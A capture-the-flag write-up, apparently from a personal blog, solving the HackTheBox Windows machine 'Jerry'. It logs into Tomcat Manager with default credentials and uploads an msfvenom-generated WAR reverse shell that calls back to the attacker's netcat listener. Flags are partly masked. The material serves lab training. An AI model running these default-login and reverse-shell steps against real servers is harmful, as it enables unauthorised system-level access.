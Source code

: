 ```yaml
---
layout: post
title: HackTheBox - Jerry
date: 2022-06-10 15:39 +0200
author: Arcee
tags: htb box easy windows fileupload misconfiguration
categories: [HackTheBox, Box]
---
```


![Jerry](/assets/img/posts/htb-jerry/jerry.png)

Easy Windows box on HackTheBox, uses a Tomcat install with a default password for the Web Application Manager. Which can be used to upload a malicious war which returns a system shell. 

## Box Info:

Name: Jerry

Release date: 30-07-2018

OS: Windows

Solve date: 10-6-2022

## Enumeration
**Nmap scan results:**    
```  
nmap -sV -sC -Pn -v 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

Webserver running apache tomcat 7.0.88.
There is a link to a management app on the page, where we can login. 
Admin admin gives no result, but the page does show us that the initial setup is done with user:tomcat and password:s3cret. Using this we can log in!

On the manager webpage there is a .war file upload that we can use to upload a reverse shell and deploy it. 

We generate the reverse shell using msfvenom:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=9002 -f war > rev_shell-9002.war`

We also need to konw the name of the jsp page to activate it with curl. So we use jar to list the contents of the .war file:  
```
jar -ft rev_shell-9002.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
mkjbjxhufdsxu.jsp
```

Next we upload this file on the webpage. Then we start a netcat server that can catch the reverse shell and finally we curl for the webpage containing the war so it gets executed. 

Start netcat server:  
`nc -lnvp 9002`

Curl webpage:  
 `curl http://10.10.10.95:8080/rev_shell-9002/mkjbjxhufdsxu.jsp`
 
 This gives us a reverse shell on the netcat!
 Now we can move to the Users\Administrator\Desktop folder where we find a txt file called "2 for the price of 1". 
 If we open this with `type 2*` we get the two flags:
 
 ```
 user.txt
70****************************00

root.txt
04****************************0e
 
 ```
